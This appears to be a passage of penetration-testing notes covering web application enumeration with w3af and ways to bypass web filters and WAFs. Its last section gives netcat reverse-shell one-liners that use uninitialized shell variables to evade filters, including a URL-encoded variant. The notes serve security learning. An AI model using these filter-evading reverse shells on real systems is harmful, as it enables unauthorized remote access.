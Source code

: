 ```yaml
---
description: >-
  TODO: Need to pull web notes out of the OS Agnostic section (and then rename
  that to something better!)
---
```


# Web Notes

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Web Application Enumeration

[w3af](http://w3af.org/) is an open source python-based Web Application Attack and Audit Framework. 

> The project’s goal is to create a framework to help you secure your web applications by finding and exploiting all web application vulnerabilities.

It can also be abused by attackers to find and enumerate weaknesses in web applications and can be downloaded and run with the following commands:

```bash
git clone --depth 1 https://github.com/andresriancho/w3af.git
    cd w3af
    ./w3af_gui
```

## Payloads and Bypass Methods for Web Filtering

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" caption="swisskyrepo / PayloadsAllTheThings" %}

{% embed url="https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/" caption="How To Exploit PHP Remotely To Bypass Filters & WAF Rules" %}

### Use Uninitialized Shell Variables to Bypass Filters

{% embed url="https://www.secjuice.com/web-application-firewall-waf-evasion/" caption="Web Application Firewall \(WAF\) Evasion Techniques \#3" %}

Uninitialized shell variables can be used for bypassing web application firewalls \(WAF\).  Example: bypassing a filter to execute a reverse shell - `nc$u -e /bin$u/bash$u <ip> <port>`.  If this doesn't work try adding spaces before and after the variable \(note the `+`'s, this example is also URL encoded\): `nc+$u++-e+/bin$u/bash$u <ip> <port>` _\(`$u` in this case is a random attacker-picked variable that would hopefully be uninitialized on the target\)._

### Use Wildcards to Bypass Filters
